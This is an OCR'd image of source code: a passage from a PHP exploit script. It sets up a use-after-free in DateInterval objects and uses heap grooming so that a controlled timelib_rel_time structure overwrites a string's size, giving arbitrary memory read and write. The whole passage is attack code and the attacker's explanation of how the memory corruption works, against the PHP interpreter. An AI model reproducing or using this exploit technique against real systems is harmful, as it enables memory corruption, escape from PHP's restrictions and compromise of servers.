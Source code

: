             o('  Allocating $abc and $p');

            # Create ABC
            # I: This is the variable we will use to R/W memory afterwards.
            # After we free the Z object, we'll make sure abc is overwritten by a
            # timelib_rel_time structure under our control. The first 8*8 = 64 bytes
            # of this structure can be modified easily, meaning we can change the
            # size of abc. This will allow us to read/write memory after abc.
            $this->abc = ptr2str(0, 79);

            # Create $p meant to protect $this's blocks
            # I: Right after we trigger the UAF, we will unset $p.
            # This means that the timelib_rel_time structure (TRT) of this object
            # will be freed. We will then allocate a string ($protector) of the same
            # size as TRT. Since PHP's heap is LIFO, the string will take the place
            # of the now-freed TRT in memory.
            # Then, we create a new DateInterval object ($x). From the same
            # assumption, every structure constituting this new object will take the
            # place of the previous structure. Nevertheless, since TRT's memory
            # block has already been replaced by $protector, the new TRT will be put
            # in the next free blocks of the same size, which happens to be $abc
            # (remember, |abc| == |timelib_rel_time|).